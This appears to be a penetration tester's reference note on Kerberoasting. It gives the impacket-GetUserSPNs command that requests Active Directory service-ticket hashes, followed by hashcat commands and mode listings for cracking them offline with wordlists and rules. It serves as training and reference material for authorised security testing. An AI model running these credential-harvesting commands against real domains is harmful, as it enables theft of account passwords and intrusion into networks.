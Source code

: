 ```yaml
---
tags:
---
```

# GetUserSPNs

Queries target domain for SPNs that are running under a user account ([Kerberoasting](https://www.youtube.com/watch?v=-3MxoxdzFNI))

## Capabilities

```bash
# Get User SPNs and pull a TGS_REP hash
impacket-GetUserSPNs -request -dc-ip $IP -outputfile hashes.kerberoast $DOMAIN/$USER
```

Crack a `TGS_REP` hash in hashcat

```
kali@kali:~$ hashcat --help | grep -i "Kerberos"         
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```

```bash
# Kali
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# Host
.\hashcat.exe -m 13100 hashes\pen-200\hashes.kerberoast wordlists\rockyou.txt -r rules\best64.rule --force
```
